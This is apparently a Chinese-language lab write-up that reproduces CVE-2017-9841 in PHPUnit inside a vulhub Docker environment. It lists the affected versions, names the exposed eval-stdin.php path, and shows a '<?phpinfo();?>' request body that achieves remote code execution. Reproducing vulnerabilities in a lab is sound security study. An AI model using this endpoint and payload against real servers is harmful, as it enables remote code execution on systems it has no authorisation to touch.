 # 0x00 软件介绍
PHPUnit：一款php下软件测试常用的框架

# 0x01 复现环境
使用环境：vulhub中的环境  
复现版本：PHPUnit 5.6.2

# 0x02 环境搭建
靶机环境：kali_x64_en-us

cd ./vulhub-master/  
cd ./phpunit/  
cd ./CVE-2017-9841/  
docker-compose build  
docker-compose up -d

# 0x03 利用条件
使用composer安装受影响版本的PHPUnit

# 0x04 影响版本
4.8.19 <= PHPUnit <= 4.8.27  
5.0.10 <= PHPUnit <= 5.6.2

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

访问http://ip:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php  
直接在请求中添加<?phpinfo();?>，如下图  
![image](./0.png)  
结果如下  
![image](./1.png)  

# 0x06 踩坑记录
坑1：  
在本地搭建环境，网络会非常非常慢，建议找一台云服务器

# 0x07 参考链接
无
